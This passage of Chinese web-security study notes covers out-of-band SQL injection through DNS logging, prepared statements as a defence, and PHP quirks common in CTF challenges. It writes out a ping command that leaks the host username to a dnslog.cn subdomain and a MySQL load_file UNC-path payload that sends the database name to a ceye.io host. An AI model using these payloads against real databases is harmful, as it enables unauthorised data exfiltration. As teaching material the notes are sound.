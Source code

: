 sql%E6%B3%A8%E5%85%A5%20629f306f168c40bcadaf968bb14be760/Untitled%201.png

点击获取子域名获取一个包含三级域名的域名给我们，这里我们使用ping命令做测试

`ping %USERNAME%.4ap7wz.dnslog.cn`

当ping通的时候，我们点击该网站的刷新记录就可以看到我测试主机的用户名armandhe了。

该注入方法适用于需要时间盲注、没有回显的注入场景。构造mysql语句如下。

`' and (select load_file(concat('\\\\',(select database()),'.xxxx.ceye.io\\abc')))`

只能应用于windows平台，鸡肋

unc路径，是在windows平台上访问局域网网络资源的一种路径表示方法，我们在window上使用的文件共享服务路径就是通过这种方式，`\\172.16.11.24` 这也就解释了为什么只能在window平台的服务器上有效，另外多出来的两个`\`表示转义。

`load_file` 受mysql配置文件中`secure_file_priv`选项的限制，

```
secure_file_priv= //允许所有secure_file_priv="G:\" //允许加载G盘secure_file_priv=null //拒绝
```

## SQLI已死——SQL预编译

sql注入存在的原因是计算机对代码部分、与数据部分区分错误导致的。

sql语句在执行之前会进行词法分析、语义分析，当代码中有大量的重复语句的时候，就会浪费大量的资源，所以有了预编译的概念。在sql语句执行前，sql语句被预编译，这样，我们就可以复用同一条sql语句，而不需要每次执行sql语句的时候都进行词法分析与语义分析，同时无论我们输入的内容是什么都会被当作字符串，而不会被当作代码部分被执行。当然预编译也存在局限性，预编译只能编译sql的参数部分，而不能编译sql的结构部分，所以当结构部分语句需要动态生成的时候就不能使用预编译，这样就可能存在sql注入的问题。再有预编译的语句也并不是无邪可以，参数部分还是可能存在注入点的，如like子句中用为%在sql中是一个通配符，所以当我们还是有可能精心构造一条sql语句的。

# PHP特性

[ctf中php常见的考点_一个安全研究员-CSDN博客_ctfphp](https://blog.csdn.net/he_and/article/details/78461896?spm=1001.2014.3001.5501)

## 变量默认值

当定义一个变量时，如果没有设置值，则该变量会被默认设置为0

如

http://domain/test.php?name[]=hjx&password[]=hjx123456

此时$_GET[name]=[hjx] $_GET[password]=[‘hjx123456’] _POST同样存在该特性

## 内置函数的松散性

### strcmp

如果两个字符串相等则返回0

- 5.2 中是将两个参数先转换成string类型。
- 5.3.3 以后，当比较数组和字符串的时候，返回是0。
- 5.5 中如果参数不是string类型，直接return了

